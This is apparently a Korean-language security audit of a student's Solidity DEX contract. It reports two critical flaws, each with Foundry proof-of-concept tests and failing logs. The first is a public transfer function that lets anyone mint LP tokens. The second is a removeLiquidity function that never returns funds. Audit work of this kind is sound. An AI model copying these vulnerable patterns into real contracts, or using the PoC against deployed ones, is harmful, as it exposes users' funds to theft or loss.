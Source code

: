 # 김한기

## public transfer
#### Dex.sol:transfer:159
**************critical (파급력: high, 공격 난이도: low)**************

```solidity
function transfer(address to, uint256 lpAmount) external returns (bool) {
        require(lpAmount > 0);

        lpt.mint(payable(address(this)), lpAmount);
        lpt.transfer(payable(to), lpAmount);

        return true;
    }
```

한기님 같은 경우에는 ERC20을 상속받지 않고 lpt토큰을 따로 유지하신다. LPT token의 owner가 DEX이고 mint는 owner밖에 할 수 없지만 transfer가 public으로 선언되어 잇는 상황에서 mint를 아무나 할 수 있게 된다.

#### PoC

```solidity
function testTransferVisibility() external {
        vm.startPrank(user1);
        dex.transfer(address(this), 1000 ether);
        
        (address lptaddr, address oracleaddr) = dex.getInfo();
        ERC20 lpt = ERC20(lptaddr);
        
        uint amount = lpt.balanceOf(address(this));
        console.log("%d", amount);
        amount = lpt.totalSupply();
        console.log("%d", amount);
        vm.stopPrank();
        assertTrue(!(amount == 1000 ether), "testTransferVisibility Error");
    }
```

```solidity
[FAIL. Reason: Assertion failed.] testTransferVisibility() (gas: 89969)
Logs:
  1000000000000000000000
  1000000000000000000000
  Error: testTransferVisibility Error
  Error: Assertion Failed
```

## removeLiquidity nothing happend
#### Dex.sol:removeLiquidity:138
******************************************************************************************************critical (파급력: critical, 공격난이도:???)******************************************************************************************************

```solidity
function removeLiquidity(
        uint256 LPTokenAmount,
        uint256 minimumTokenXAmount,
        uint256 minimumTokenYAmount
    ) external returns (uint rx, uint ry) {
        require(LPTokenAmount > 0);
        require(minimumTokenXAmount >= 0);
        require(minimumTokenYAmount >= 0);
        require(lpt.balanceOf(msg.sender) >= LPTokenAmount);

        (uint balanceOfX, uint balanceOfY) = pairTokenBalance();

        uint lptTotalSupply = lpt.totalSupply();

        rx = balanceOfX * LPTokenAmount / lptTotalSupply;
        ry = balanceOfY * LPTokenAmount / lptTotalSupply;

        require(rx >= minimumTokenXAmount);
        require(rx >= minimumTokenYAmount);
    }
```

removeLiquidity에 tokenX, tokenY를 보내주거나, LP토큰을 소각하는 과정이 없이, 얼마를 받을 수 있는지만 나와 있다.

이 기능이 없기 때문에 피해자는 해당 DEX에 유동성을 공급할 경우 공급한 유동성을 돌려받을 수 없다.

#### PoC

```solidity
function testIsRemoveLiquidityWork() external{
        uint pre_x = tokenX.balanceOf(address(this));
        uint pre_y = tokenY.balanceOf(address(this));
        (address lptaddr, address oracleaddr) = dex.getInfo();
        ERC20 lpt = ERC20(lptaddr);
        
        uint lp1 = dex.addLiquidity(1000 ether, 1000 ether, 0);
        (uint rx, uint ry) = dex.removeLiquidity(lp1, 0, 0);
        console.log("rx: %d", rx);
        console.log("ry: %d", ry);
        
        uint lp = lpt.balanceOf(address(this));
        console.log("lp: %d", lp);
        assertTrue(!(lp == lp1));
        
        uint post_x = tokenX.balanceOf(address(this));
        uint post_y = tokenY.balanceOf(address(this));
        console.log("pre_x: %d", pre_x);
        console.log("pre_y: %d", pre_y);
        console.log("post_x: %d", post_x);
        console.log("post_y: %d", post_y);
        assertTrue(pre_x == post_x);
        assertTrue(pre_y == post_y);
    }
```

```solidity
[FAIL. Reason: Assertion failed.] testIsRemoveLiquidityWork() (gas: 207774)
Logs:
  priceOfX: 1000
  rx: 1000000000000000000000
  ry: 1000000000000000000000
  lp: 1000000000000000000000000
  Error: Assertion Failed
  pre_x: 10000000000000000000000000
  pre_y: 10000000000000000000000000
  post_x: 9999000000000000000000000
  post_y: 9999000000000000000000000
  Error: Assertion Failed
  Error: Assertion Failed
```
